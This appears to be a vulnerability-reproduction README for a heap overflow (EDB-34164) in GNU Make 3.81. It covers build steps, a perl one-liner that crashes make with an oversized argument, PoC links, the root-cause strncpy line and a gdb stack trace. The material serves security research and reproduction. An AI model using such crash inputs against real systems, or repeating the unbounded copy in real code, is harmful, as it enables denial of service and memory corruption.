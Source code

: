# EDB-34164

## Experiment Environment

Debian Jessie

[DockerFile](https://github.com/mudongliang/Dockerfiles/tree/master/EDB-34164)

[Docker Image](https://hub.docker.com/r/mudongliang/make-edb-34164/)

## INSTALL & Configuration

```
wget http://ftp.gnu.org/gnu/make/make-3.81.tar.gz;
** or **
wget https://raw.githubusercontent.com/mudongliang/source-packages/master/EDB-34164/make-3.81.tar.gz 

tar -xvf make-3.81.tar.gz;
cd make-3.81/;
./configure;
make;
```

## Problems in Installation & Configuration

## How to trigger vulnerability

```
./make `perl -e 'print "A" x 4000 . "B"x96 . "\xef\xbe\xad\xde"x4'`
```

## PoCs

[Exploit-DB Make 3.81 - Heap Overflow](https://www.exploit-db.com/exploits/34164/]

[LinuxFlaw Make 3.81 - Heap Overflow (PoC)](https://github.com/mudongliang/LinuxFlaw/blob/master/EDB-34164/34164.pl)

[exploitdb-database Make 3.81 - Heap Overflow (PoC)](https://github.com/offensive-security/exploit-database/blob/master/platforms/linux/dos/34164.pl)

## Vulnerability Details & Patch

### Root Cause

```
implicit.c:478

          strncpy (stem_str, stem, stemlen);

```

### Stack Trace

```
(gdb) info stack
#0  pattern_search (file=0x7fffffffa040, file@entry=0x7fffff006300, 
    archive=archive@entry=0, depth=depth@entry=2, 
    recursions=recursions@entry=1) at implicit.c:752
#1  0x000000000040cedd in pattern_search (file=0x631cf0, 
    file@entry=0xdeadbeefdeadbeef, archive=archive@entry=0, 
    depth=depth@entry=1, recursions=recursions@entry=0) at implicit.c:735
#2  0x000000000040d5b0 in try_implicit_rule (file=0xdeadbeefdeadbeef, 
    file@entry=0x631cf0, depth=depth@entry=1) at implicit.c:48
#3  0x0000000000418306 in update_file_1 (depth=1, file=0x631cf0)
    at remake.c:453
#4  update_file (file=file@entry=0x631cf0, depth=<optimized out>)
    at remake.c:307
#5  0x0000000000418c66 in update_goal_chain (goals=0x66c920)
    at remake.c:154
#6  0x000000000040389f in main (argc=<optimized out>, 
    argv=0x7fffffffdd18, envp=<optimized out>) at main.c:2198
```

## References

[1] [make-3.81](http://ftp.gnu.org/gnu/make/make-3.81.tar.gz)
[2] [make-3.81](https://raw.githubusercontent.com/mudongliang/source-packages/master/EDB-34164/make-3.81.tar.gz)
[3] [DockerFile](https://github.com/mudongliang/Dockerfiles/tree/master/EDB-34164)
[4] [Docker Image](https://hub.docker.com/r/mudongliang/make-edb-34164/)
[5][Exploit-DB Make 3.81 - Heap Overflow](https://www.exploit-db.com/exploits/34164/]
[6][LinuxFlaw Make 3.81 - Heap Overflow (PoC)](https://github.com/mudongliang/LinuxFlaw/blob/master/EDB-34164/34164.pl)
[7][exploitdb-database Make 3.81 - Heap Overflow (PoC)](https://github.com/offensive-security/exploit-database/blob/master/platforms/linux/dos/34164.pl)

